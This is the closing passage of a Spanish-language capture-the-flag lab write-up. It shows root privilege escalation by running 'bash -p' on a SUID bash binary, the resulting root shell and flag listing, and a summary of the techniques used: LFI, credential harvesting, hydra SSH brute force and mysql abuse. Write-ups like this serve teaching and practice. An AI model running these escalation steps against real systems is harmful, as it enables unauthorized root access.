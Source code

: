 Tenemos **SUID** Ahora podemos ejecutar una **bash** con privilegios de **root**
```bash
# Comando para escalar al usuario: ( root )
bash -p
```

---
## Evidencia de Compromiso
Flags **root**
```bash
bash-5.2# ls -la /root

-rw-r--r--  1 root root   33 Feb 26 12:27 root.txt
```

```bash
# Captura de pantalla o output final
bash-5.2# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a leer archivos internos de la maquina atraves de un **LFI**
2. Aprendimos a obtener credenciales de acceso de archivos internos gracias a un **LFI**
3. Aprendimos a hacer fuerza bruta con **hydra** para ganar acceso por **ssh**
4. Aprendimos a abusar de **mysq** para ganar acceso como **root**

## Recomendaciones de Seguridad
- Evitar capacidad de escritura sobre el archivo **mysql**